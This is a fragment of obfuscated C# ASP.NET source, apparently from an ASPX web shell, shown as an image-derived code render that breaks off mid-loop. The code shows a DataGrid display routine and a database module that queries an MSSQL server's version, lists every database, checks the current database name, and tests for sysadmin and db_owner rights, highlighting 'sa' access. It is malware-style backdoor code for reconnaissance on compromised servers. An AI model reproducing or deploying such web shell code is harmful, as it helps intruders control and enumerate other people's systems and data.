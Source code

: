 jxF.Columns.Remove("TABLE_CATALOG");jxF.Columns.Remove("TABLE_SCHEMA");jxF.Columns.Remove("DESCRIPTION");jxF.Columns.Remove("TABLE_PROPID");
rom.PreRender+=new EventHandler(lRavM);
rom.DataSource=jxF;
rom.DataBind();
for(int i=0;i&lt;rom.Items.Count;i++)
{
string bg=OKM();
rom.Items[i].CssClass=bg;
rom.Items[i].Attributes["onmouseover"]="this.className='focus';";
rom.Items[i].Attributes["onmouseout"]="this.className='"+bg+"';";
}
rom.Visible=true;
}
catch(Exception e)
{
xseuB(e.Message);
rom.Visible=false;
}
}
private void lRavM(object sender,EventArgs e)
{
DataGrid d=(DataGrid)sender;
foreach(DataGridItem item in d.Items)
{
foreach(TableCell t in item.Cells)
{
t.Text=t.Text.Replace("&lt;","&lt;").Replace("&gt;","&gt;");
}
}
}
public void vCf()
{
dQIIF.Visible=true;
try
{
jHIy.InnerHtml=string.Empty;
if(WYmo.SelectedItem.Text=="MSSQL")
{
rom.Visible=false;
uXevN.Visible=true;
irTU.Visible=true;
OUj();
DataTable ver=CYUe(@"SELECT @@VERSION");
DataTable dbs=CYUe(@"SELECT name FROM master.dbo.sysdatabases");
DataTable cdb=CYUe(@"SELECT DB_NAME()");
DataTable rol=CYUe(@"SELECT IS_SRVROLEMEMBER('sysadmin')");
DataTable YKrm=CYUe(@"SELECT IS_MEMBER('db_owner')");
string jHlh=ver.Rows[0][0].ToString();
string dbo=string.Empty;
if(YKrm.Rows[0][0].ToString()=="1")
{
dbo="db_owner";
}
else
{
dbo="public";
}
if(rol.Rows[0][0].ToString()=="1")
{
dbo="&lt;font color=blue&gt;sa&lt;/font&gt;";
}
string db_name=string.Empty;
foreach(ListItem item in FGEy.Items)